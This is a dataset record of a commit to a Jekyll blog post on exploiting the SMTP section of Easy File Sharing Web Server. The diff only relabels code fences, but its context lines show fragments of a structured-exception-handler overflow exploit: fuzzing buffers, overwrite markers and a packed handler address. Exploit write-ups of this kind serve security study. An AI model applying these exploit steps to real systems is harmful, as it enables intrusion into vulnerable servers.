

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2020-03-16-Exploiting-Locally-the-SMTP-section-in-Easy-File-Sharing-Web-Server.md, in a window 1280 px wide and 900 px high, scrolled down 3427 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-03-16-Exploiting-Locally-the-SMTP-section-in-Easy-File-Sharing-Web-Server.md

````diff
--- a/_posts/posts/2020-03-16-Exploiting-Locally-the-SMTP-section-in-Easy-File-Sharing-Web-Server.md
+++ b/_posts/posts/2020-03-16-Exploiting-Locally-the-SMTP-section-in-Easy-File-Sharing-Web-Server.md
@@ -17,7 +17,7 @@
 
 Once the application is already set, a small fuzzing script is generated:
 
-```python
+```terminal_session
 import struct
 
 buffer = "A" * 1000
@@ -66,7 +66,7 @@
 
 The Proof-of-Concept is updated:
 
-```c
+```terminal_session
 import struct
 
 buffer = "A" * 512 + "BBBB" + "CCCC" + "\xff" * 200
@@ -89,7 +89,7 @@
 
 The first result is copied into the PoC, along with a short jump on the next handler offset:
 
-```console
+```terminal_session
 import struct
 
 seh = struct.pack("<I", 0x1002324C)
````
